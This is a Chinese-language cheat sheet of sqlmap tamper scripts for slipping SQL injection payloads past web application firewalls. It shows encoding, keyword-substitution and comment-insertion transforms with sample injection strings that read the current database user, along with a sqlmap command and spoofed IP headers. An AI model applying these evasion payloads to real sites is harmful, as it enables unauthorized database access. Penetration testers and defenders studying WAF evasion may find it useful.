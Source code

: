 
# 0x00 sqlmap目录下的temper目录，目录里的脚本有不同的功能老帮助我们使用sqlmap进行高级的sql注入。
    如：绕过waf

	sqlmap -u http://192.168.1.3:8008/onews.asp?id=45 --tamper "randomcase.py"


# 0x01 编码绕过
	apostrophemask.py             用utf8代替引号					
								  '  ===>>>  %EF%BC%87
	apostrophenullencode.py 	  对 ' 进行url编码 					
							 	  ' -> %00%27
	appendnullbyte.py 			  末尾追加空字节字符					
								  1 and 1=1%00
	base64encode.py 			  对payload进行base64编码
	chardoubleencode.py 		  双重URL编码给定有效负载中的所有字符（不处理已编码）
								  SELECT FIELD FROM%20TABLE ===>>> %2553%2545%254C%2545%2543%2554%2520%2546%2549%2545%254C%2544%2520%2546%2552%254F%254D%2520%2554%2541%2542%254C%2545
	charencode.py 				  URL编码给定有效负载中的所有字符（未处理已编码）
								  SELECT  ===>>>  %53%45%4C%45%43%54
	charunicodeencode.py 		  Unicode-URL编码给定有效负载中的所有字符（未处理已编码）
								  SELECT ===>>> %u0053%u0045%u004C%u0045%u0043%u0054
	charunicodeescape.py 		  Unicode-转义给定有效负载中的非编码字符（不处理已编码）
								  SELECT ===>>> \u0053\u0045\u004C\u0045\u0043\u0054
	htmlencode.py 				  HTML编码（使用代码点）所有非字母数字字符
								  1' AND SLEEP(5)#  ===>>>  1&#39;&#32;AND&#32;SLEEP&#40;5&#41;&#35;
	overlongutf8more.py 		  将给定有效负载中的所有字符转换为超长UTF8（未处理已编码）
								  SELECT  ===>>>  %C1%93%C1%85%C1%8C%C1%85%C1%83%C1%94
	overlongutf8.py 			  将给定有效负载中的所有（非孤立）字符转换为过长的UTF8（未处理已编码）
								  ' - >％C0％A7


# 0x02 替换绕过
	between.py 					  用'NOT BETWEEN 0 AND＃'替换大于运算符（'>'）
								  用'BETWEEN＃AND＃'替换运算符（'='）
	bluecoat.py 			 	  用有效的随机空白字符替换SQL语句后的空格字符。 然后用运算符LIKE替换字符'='
								  SELECT%09id FROM%09users WHERE%09id LIKE 1
	commalesslimit.py 			  用'LIMITN OFFSET M'代替'LIMIT M，N'替换（MySQL）
	commalessmid.py 			  用“MID（A FROM B FOR C）”对应代替“MID（A，B，C）”之类的（MySQL）
	concat2concatws.py 			  用'CONCAT_WS（MID（CHAR（0），0,0），A，B）替换 CONCAT（A，B）
	equaltolike.py 				  用“LIKE”替换所有出现的'='
	greatest.py 				  用'GREATEST'替换大于运算符（'>'）
								  1 AND A > B  ===>>>  1 AND GREATEST(A,B+1)=A 
	least.py 					  用'LEAST'替换大于运算符（'>'）
								  1 AND A > B  ===>>>  1 AND LEAST(A,B+1)=B+1
	lowercase.py 				  用小写值替换每个关键字字符
								  SELECT  ===>>> select
	ifnull2casewhenisnull.py  	  将'IFNULL（A，B）'替换为'CASE WHEN ISNULL（A）然后（B）ELSE（A）END'
								  IFNULL(1, 2)  ===>>>  CASE WHEN ISNULL(1) THEN (2) ELSE (1) END
	ifnull2ifisnull.py  		  将'IFNULL（A，B）'替换成'IF（ISNULL（A），B，A）'
						     	  IFNULL(1, 2)  ===>>>  IF(ISNULL(1),2,1)
	plus2concat.py 				  用（MsSQL）函数CONCAT()替换加运算符'+'
								  SELECT CHAR(113)+CHAR(114)+CHAR(115) FROM DUAL  ===>>>  SELECT CONCAT(CHAR(113),CHAR(114),CHAR(115)) FROM DUAL
	plus2fnconcat.py 			  用（MsSQL）ODBC函数{fn CONCAT（）}替换加运算符（'+'）
								  SELECT CHAR(113)+CHAR(114)+CHAR(115) FROM DUAL  ===>>>  SELECT {fn CONCAT({fn CONCAT(CHAR(113),CHAR(114))},CHAR(115))} FROM DUAL
	randomcase.py 				  用随机大小写值替换每个关键字字符
								  SELECT  ===>>>  SEleCt
	space2plus.py 				  用 '+' 替换空格
								  SELECT id FROM users  ===>>>  SELECT+id+FROM+users
	space2randomblank.py 		  用一组随机的有效的替换字符替换空格
								  SELECT id FROM users  ===>>>  SELECT%0Did%0CFROM%0Ausers
	substring2leftright.py 		  (PostgreSQL)用left()和right()替换substring()
								  SUBSTRING((SELECT usename FROM pg_user)::text FROM 1 FOR 1)  ===>>>  LEFT((SELECT usename FROM pg_user)::text,1)
								  SUBSTRING((SELECT usename FROM pg_user)::text FROM 3 FOR 1  ===>>>  LEFT(RIGHT((SELECT usename FROM pg_user)::text,-2),1)
	symboliclogical.py 			  用符号（&&和||）替换AND和OR逻辑运算符
	unionalltounion.py 			  用UNION SELECT替换UNION ALL SELECT
	unmagicquotes.py 			  用多字节组合％BF％27替换引号字符（'）以及最后的通用注释
								  1' AND 1=1  ===>>>  1%bf%27-- -
	uppercase.py 				  用大写值替换每个关键字字符
								  select  - > SELECT


# 0x03 注释绕过
	commentbeforeparentheses.py   在括号前添加（内联）注释
								 （  ===>>> / ** /（
	halfversionedmorekeywords.py  在每个关键字之前添加（MySQL）版本化注释
								  value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa  ===>>>   value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa
	hex2char.py 				  用等效的CONCAT(CHAR()，...)替换每个（MySQL）0x<hex>编码的字符串
								  SELECT 0xdeadbeef  ===>>>  SELECT CONCAT(CHAR(222),CHAR(173),CHAR(190),CHAR(239)) 
	informationschemacomment.py   在所有出现的（MySQL）“information_schema”标识符的末尾添加内联注释（/ ** /）
				   				  SELECT table_name FROM INFORMATION_SCHEMA.TABLES  ===>>>  SELECT table_name FROM INFORMATION_SCHEMA/ ** /.TABLES
	modsecurityversioned.py 	  包含（MySQL）版本化评论的完整查询
								  1 AND 2>1--  ===>>>  1 /*!30963AND 2>1*/--
	modsecurityzeroversioned.py   包含（MySQL）零版本注释的完整查询
								  1 AND 2>1--  ===>>>  1 /*!00000AND 2>1*/--
	randomcomments.py 			  在SQL关键字中添加随机内联注释
	 							  SELECT  ===>>>  S / ** / E / ** / LECT）
	space2comment.py 			  用注释'/ ** /'替换空格字符（' '）
	space2dash.py 				  将空格字符（' '）替换为短划线注释（'-'），后跟随机字符串和新行（'\n'）
	 							  1 AND 9227=9227  ===>>>  1--upgPydUzKpMX%0AAND--RcDKhIr%0A9227=9227
	space2hash.py 				  将空格字符（' '）替换（MySQL）＃号注释（'#'）实例，后跟随机字符串和新行（'\n'）
								  1 AND 9227=9227  ===>>>  1%23upgPydUzKpMX%0AAND%23RcDKhIr%0A9227=9227
	space2morecomment.py 		  用注释'/ ** _ ** /'替换（MySQL）空格字符（' '）
	space2morehash.py 			  将空格字符（''）替换（MySQL）注释字符（'#'）实例，后跟随机字符串和新行（'\ n'）
	space2mssqlblank.py 		  用一组有效的替换字符中的随机空白字符替换（MsSQL）空格字符（''）
								  SELECT id FROM users  ===>>>  SELECT%0Did%0DFROM%04users
	space2mssqlhash.py 			  用注释字符（'#'）替换空格字符（''）后跟一个新行（'\n'）
								  1 AND 9227=9227  ===>>>  1%23%0AAND%23%0A9227=9227
	space2mysqlblank.py  		  用一组有效的替换字符中的随机空白字符替换（MySQL）空格字符（''）
								  SELECT id FROM users  ===>>>  SELECT%A0id%0CFROM%0Dusers
	space2mysqldash.py 			  将空格字符（''）替换为短划线注释（'-'）后跟新行（'\n'） 
								  1 AND 9227=9227  ===>>>  1--%0AAND--%0A9227=9227
	versionedkeywords.py 		  用（MySQL）版本化注释包含每个非函数关键字
								  1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))# ===>>>  1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS*//*!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#
	versionedmorekeywords.py 	  用（MySQL）版本化注释包含每个关键字
								  1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,122,114,115,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,115,114,121,58))#  ===>>>  1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/,/*!CONCAT*/(/*!CHAR*/(58,122,114,115,58),/*!IFNULL*/(CAST(/*!CURRENT_USER*/()/*!AS*//*!CHAR*/),/*!CHAR*/(32)),/*!CHAR*/(58,115,114,121,58))#


# 0x04 转义绕过
	escapequotes.py 			  斜杠转义单引号和双引号
							      '  ===>>>  \'


# 0x05 添加绕过
	multiplespaces.py 			  在SQL关键字周围添加多个空格（''）
	percentage.py 				  在每个字符前面添加一个百分号（'％'）
								  SELECT  - >％S％E％L％E％C％T）
	sp_password.py 				  将（MsSQL）函数"sp_password"附加到有效负载的末尾，
								  以便从DBMS日志中自动进行模糊处理
								  1 AND 9227=9227--  ===>>>  1 AND 9227=9227-- sp_password


# 0x06 其他绕过
	luanginx.py 				  LUA-Nginx WAF绕道（例如Cloudflare）
	varnish.py 					  附加HTTP标头“X-originating-IP”以绕过Varnish Firewall
								  headers["X-originating-IP"] = "127.0.0.1"
	xforwardedfor.py 			  附加一个假的HTTP标头'X-Forwarded-For'
								  headers = kwargs.get("headers", {})
	    						  headers["X-Forwarded-For"] = randomIP()
	    						  headers["X-Client-Ip"] = randomIP()
	    						  headers["X-Real-Ip"] = randomIP()